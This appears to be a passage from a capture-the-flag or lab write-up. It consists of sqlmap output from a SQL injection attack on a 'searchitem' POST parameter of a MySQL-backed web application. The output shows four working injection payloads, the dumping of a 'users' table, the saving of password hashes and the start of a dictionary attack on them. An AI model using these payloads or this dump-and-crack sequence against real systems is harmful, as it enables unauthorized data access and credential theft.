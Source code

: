 Results:

```shell
└─$ sqlmap -r request.txt --dbms=mysql --dump
        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 09:13:37 /2023-05-13/

[09:13:37] [INFO] parsing HTTP request from 'request.txt'
[09:13:37] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: searchitem (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (MySQL comment)
    Payload: searchitem=-1338' OR 3684=3684#

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: searchitem=test' AND GTID_SUBSET(CONCAT(0x716a767671,(SELECT (ELT(4123=4123,1))),0x716b786b71),4123)-- Bqqt

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: searchitem=test' AND (SELECT 2516 FROM (SELECT(SLEEP(5)))Mthy)-- RpRf

    Type: UNION query
    Title: MySQL UNION query (NULL) - 3 columns
    Payload: searchitem=test' UNION ALL SELECT NULL,NULL,CONCAT(0x716a767671,0x716a71644c4479497741746d55616c6d61696346694a545a514957774641684f4a61596c6347626c,0x716b786b71)#
---
[09:13:37] [INFO] testing MySQL
[09:13:37] [INFO] confirming MySQL
[09:13:37] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.0.0
[09:13:37] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[09:13:37] [INFO] fetching current database
[09:13:37] [INFO] fetching tables for database: 'db'
[09:13:37] [INFO] fetching columns for table 'users' in database 'db'
[09:13:37] [INFO] fetching entries for table 'users' in database 'db'
[09:13:37] [INFO] recognized possible password hashes in column 'pwd'
do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] y
[09:13:40] [INFO] writing hashes to a temporary file '/tmp/sqlmap1woun6y723513/sqlmaphashes-6damiwrm.txt' 
do you want to crack them via a dictionary-based attack? [Y/n/q] y
[09:13:41] [INFO] using hash method 'sha256_generic_passwd'
what dictionary do you want to use?
[1] default dictionary file '/usr/share/sqlmap/data/txt/wordlist.tx_' (press Enter)
[2] custom dictionary file
[3] file with list of dictionary files
> 1
```